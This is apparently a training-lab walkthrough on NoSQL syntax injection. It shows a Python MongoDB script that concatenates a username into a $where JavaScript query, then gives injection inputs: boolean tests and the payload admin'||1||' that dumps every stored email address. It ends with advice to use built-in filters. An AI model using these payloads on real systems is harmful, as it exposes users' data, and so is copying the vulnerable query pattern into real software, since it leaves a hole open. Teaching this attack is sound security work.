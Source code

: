 # Finding Syntax Injection

Now that we have covered Operator Injection, let's take a look at a Syntax Injection example. A Python application is running to allow you to receive the email address of any username that is provided. To use the application, authenticate via SSH using `ssh syntax@MACHINE_IP` along with the credentials below:

- **THM key**
- **Username:** syntax
- **Password:** syntax

Once authenticated, you can provide a username as input. Let's start by simply providing `admin`:

```sh
ssh syntax@MACHINE_IP
syntax@MACHINE_IP's password: 
Please provide the username to receive their email: admin
admin@nosql.int
Connection to MACHINE_IP closed.
```

We can start to test for Syntax Injection by simply injecting a `'` character, which will result in the error seen in the response below:

```sh
syntax@MACHINE_IP's password: 
Please provide the username to receive their email: admin'
Traceback (most recent call last):
  File "/home/syntax/script.py", line 17, in <module>
    for x in mycol.find({"$where": "this.username == '" + username + "'"}):
  File "/usr/local/lib/python3.6/dist-packages/pymongo/cursor.py", line 1248, in next
    if len(self.__data) or self._refresh():
  File "/usr/local/lib/python3.6/dist-packages/pymongo/cursor.py", line 1165, in _refresh
    self.__send_message(q)
  File "/usr/local/lib/python3.6/dist-packages/pymongo/cursor.py", line 1053, in __send_message
    operation, self._unpack_response, address=self.__address
  File "/usr/local/lib/python3.6/dist-packages/pymongo/mongo_client.py", line 1272, in _run_operation
    retryable=isinstance(operation, message._Query),
  File "/usr/local/lib/python3.6/dist-packages/pymongo/mongo_client.py", line 1371, in _retryable_read
    return func(session, server, sock_info, read_pref)
  File "/usr/local/lib/python3.6/dist-packages/pymongo/mongo_client.py", line 1264, in _cmd
    sock_info, operation, read_preference, self._event_listeners, unpack_res
  File "/usr/local/lib/python3.6/dist-packages/pymongo/server.py", line 134, in run_operation
    _check_command_response(first, sock_info.max_wire_version)
  File "/usr/local/lib/python3.6/dist-packages/pymongo/helpers.py", line 180, in _check_command_response
    raise OperationFailure(errmsg, code, response, max_wire_version)
pymongo.errors.OperationFailure: Failed to call method, full error: {'ok': 0.0, 'errmsg': 'Failed to call method', 'code': 1, 'codeName': 'InternalError'}
Connection to MACHINE_IP closed.
```

The following line in the error message shows us that there is Syntax Injection:

```python
for x in mycol.find({"$where": "this.username == '" + username + "'"}):
```

We can see that the `username` variable is directly concatenated to the query string and that a JavaScript function is being executed in the `find` command, allowing us to inject into the syntax. In this case, we have verbose error messages to give us an indication that injection is possible. However, even without verbose error messages, we could test for Syntax Injection by providing both a false and true condition and seeing that the output differs, as shown in the example below:

```sh
ssh syntax@MACHINE_IP
syntax@MACHINE_IP's password: 
Please provide the username to receive their email: admin' && 0 && 'x
Connection to MACHINE_IP closed.

ssh syntax@MACHINE_IP
syntax@MACHINE_IP's password: 
Please provide the username to receive their email: admin' && 1 && 'x
admin@nosql.int
Connection to MACHINE_IP closed.
```

# Exploiting Syntax Injection

Now that we have confirmed Syntax Injection, we can leverage this injection point to dump all email addresses. To do this, we want to ensure that the testing statement of the condition always evaluates to true. As we are injecting into the JavaScript, we can use the payload of `'||1||'`. Let's use this to disclose sensitive information:

```sh
ssh syntax@MACHINE_IP
syntax@MACHINE_IP's password: 
Please provide the username to receive their email: admin'||1||'
admin@nosql.int
pcollins@nosql.int
jsmith@nosql.int
[...]
Connection to MACHINE_IP closed.
```

# The Exception to the Rule

It is worth noting that for Syntax Injection to occur, the developer has to create custom JavaScript queries. The same function could be performed using the built-in filter functions where `{'username': username}` would return the same result but not be vulnerable to injection. As such, Syntax Injection is rare to find, as it means that the developers are not using the built-in functions and filters. While some complex queries might require direct JavaScript, it is always recommended to avoid this to prevent Syntax Injection. The example shown above is for MongoDB; for other NoSQL solutions, similar Syntax Injection cases may exist, but the actual syntax will be different.